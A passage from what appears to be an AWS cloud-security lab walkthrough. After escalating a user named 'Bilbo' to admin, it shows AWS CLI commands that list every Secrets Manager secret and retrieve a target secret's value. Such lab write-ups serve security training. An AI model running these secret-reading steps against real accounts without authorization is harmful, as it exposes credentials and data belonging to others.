 ![enter image description here](https://dhiyaneshgeek.github.io/images/cloud/vullam5.png)

Bilbo is now an admin 🤯🤯🤯

Now that Bilbo is an admin, use credentials for that user to list secrets from secretsmanager.

```
#This command will list all the secrets in secretsmanager
aws --profile bilbo --region us-east-1 secretsmanager list-secrets
```
![enter image description here](https://dhiyaneshgeek.github.io/images/cloud/vullam6.png)

```
#This command will get the value for a specific secret
aws --profile bilbo --region us-east-1 secretsmanager get-secret-value --secret-id [ARN_OF_TARGET_SECRET]
```
![enter image description here](https://dhiyaneshgeek.github.io/images/cloud/vullam7.png)

We have found the value of the secret!
